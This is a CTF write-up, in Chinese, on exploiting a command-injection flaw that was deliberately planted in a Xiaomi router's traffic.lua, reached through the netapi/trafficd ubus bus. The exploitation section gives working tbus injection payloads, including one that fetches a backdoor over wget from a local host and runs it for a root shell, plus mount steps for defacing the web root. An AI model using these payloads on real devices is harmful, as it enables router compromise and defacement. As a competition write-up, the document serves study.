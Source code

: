 # QWB-2021-Final:RealWorld MiRouter WriteUp
>Redbud IoT     

[toc]
## 0x01 题目：
![题目](./img/question.jpg)

## 0x02 总体思路
### 1)审题
通过题目的说明，我们可以判断几个结论：   
1. 提供ssh，很大可能是小米提供的开发版固件。（后面验证确实）   
2. 题目说刷入patch，本次RW估计是埋的漏洞，而非0day或者1day。    
### 2)Diff
打包固件文件，并通过后台发现固件版本为：2.13.65。    
下载相同版本固件（http://bigota.miwifi.com/xiaoqiang/rom/r3p/miwifi_r3p_firmware_daddf_2.13.65.bin）进行对比。 

结果有/etc/配置文件不同，以及lua脚本（/usr/lib/lua/traffic.lua），该脚本最为可疑如下： 

![diff](./img/diff.png)
发现是疑似命令注入过滤去掉`$`的转义，这样就可以通过`$()`的方式触发命令注入漏洞。   
### 3)binary关联分析
已经知道了出题人埋的漏洞点，现在要确认该lua脚本谁调用的。
1. 通过字符串匹配，可以找到/usr/sbin/netapi加载了该lua脚本。  
2. 通过如下通信关系，可以发现netapi与trafficd通信，trafficd作为服务开放了784端口。   
```
tcp 0 0 127.0.0.1:784 127.0.0.1:25351 ESTABLISHED 56 4352 5218/trafficd 
tcp 0 0 127.0.0.1:25351 127.0.0.1:784 ESTABLISHED 28 4388 5440/netapi  
```
其实通过分析发现:    
- trafficd是个魔改ubusd的一个总线通信服务程序。  
- netapi而是作为ubus客户端与总线注册和通信。    
- traffic.lua呗netapi加载调用。   

我们在小米固件中也发现tbus程序，可以监听tbus总线信息，通过tbus list就可以发现netapi注册对象。   
```
>tbus list
>netapi
```
### 4）攻击链猜测
`发送payload---->trafficd（784）--[转发payload]-->netapi--[解析参数]-->traffic.lua---->触发命令注入获取Root Shell----->上黑页`
### 小节
到此，我们发现2个binary和一个lua脚本要分析,漏洞类型为命令注入漏洞。我们需要知道如何给trafficd发送消息，以及发送什么消息。   
发送消息的方法可以通过`tbus call`，发送什么消息向那个event就需要逆向分析了。

## 0x03 程序分析

### 1) /usr/lib/lua/traffic.lua
核心代码如下，cmdfmt就是用于防命令注入的函数（diff点），通过trafficd_lua_ecos_pair_verify(repeater_token)函数传入触发命令注入执行。
![](./img/lua.png)

这样trafficd_lua_ecos_pair_verify，repeater_token两个关键词在后续分析就较为重要。   

### 2） /usr/sbin/netapi
#### 逆向分析

通过字符串定位到如下位置，netapi加载traffic.lua，然后调用trafficd_lua_ecos_pair_verify函数，传参执行。   
![](./img/netapi1.png)
既然我们已经知道它是作为tbus的通信客户端，也知道到如何触发命令注入，所以我们现在就要搞清楚，tbus（ubus）的注册method和data。   
```
tbus call netapi <method> <data>
```
我们上述定位的函数sub_402070()，其实就是注册调用的回调函数，因为其功能是当消息过来之后xxx功能如何处理xxx数据。      
但是交叉索引找不到谁调用了sub_402070()。    
这我们就需要先了解下ubus如何注册订阅的，如下代码ubus客户端，需要ubus_subscriber结构对象来注册，该结构体包括了name,path,method,cb等，我们关心的参数，所以我们找到谁引用0x402070函数指针，ida没有识别出来，需要我们自己解决。         
```
static struct ubus_subscriber test_event;  
...
/* 通知到来时的处理函数。 */  
test_event.cb = test_notify;  
test_event.remove_cb = test_handle_remove; //server主动发起删除该client的订阅的cb函数（如server退出的时候）  

/* 注册test_event */  
ret = ubus_register_subscriber(ctx, &test_event);  
```
https://e-mailky.github.io/2017-08-14-ubus2

struct ubus_subscriber:   
```
121 struct ubus_object {
122         struct avl_node avl;
123 
124         const char *name;
125         uint32_t id;
126 
127         const char *path;
128         struct ubus_object_type *type;
129 
130         ubus_state_handler_t subscribe_cb;
131         bool has_subscribers;
132 
133         const struct ubus_method *methods;
134         int n_methods;
135 };
136 
137 struct ubus_subscriber {
138         struct ubus_object obj;
139 
140         ubus_handler_t cb;
141         ubus_remove_handler_t remove_cb;
142 };
```
https://lxr.openwrt.org/source/ubus/libubus.h#L34

通过地址信息我们发现如下：   
![](./img/netapi2.png)
修复后如下：
![](./img/netapi5.png)
![](./img/netapi3.png)
到这我们知道method为init。    
```
tbus call netapi init <data>
```
最后就是数据格式了，通过固件全局搜tbus，会发现很多tbus执行脚本，我们知道后面的数据为json格式，还是之前的处理函数，通过该语句我们知道其处理获取data参数数据。
```
blobmsg_parse(&off_4061D0, 1, &v31, a5 + 1, (v7 & 0xFFFFFF) - 4);
//&off_4061D0 = data
```
最终获取的tbus命令如下：
```
tbus call netapi init '{"data":"re1111111"}'
```
#### 调试
其实在整个过程中我们可以重启netapi 开启level=5，打印调试信息。
`/usr/sbin/netapi -l 5`

![](./img/netapi4.png)

### 3）/usr/sbin/trafficd
得知其作为tbusd服务程序，就不需要深入分析了。


## 0x04 漏洞利用
如下方式可以执行命令：
```
tbus call netapi init '{"data":"re$(touch /tmp/re111)"}'
```
可以下载后门执行获取shell:   
```
tbus call netapi init '{"data":"re$(wget http://192.168.31.7:8000/backdoor -O /tmp/backdoor ; chmod +x /tmp/backdoor ; /tmp/backdoor )111"}'
```
在这拿到shell并不代表结束，我们还需要写黑页，因为该文件系统是只读无法直接修改，我们可以通过重挂在的方式完成该任务。     
* `cp -r /www /tmp/fake_www`；
* `mount -o loop /tmp/fake_www /www`；
* 修改 `/tmp/fake_www/index.html` 为黑页即可。

## 0x05 武器化
我们以上的测试都是通过tbus完成，最终我们想利用有两个方法：
1. qemu+tbus程序
2. 抓流量写脚本

最终我们比赛中采用抓流量写脚本的方式，较为稳定。    
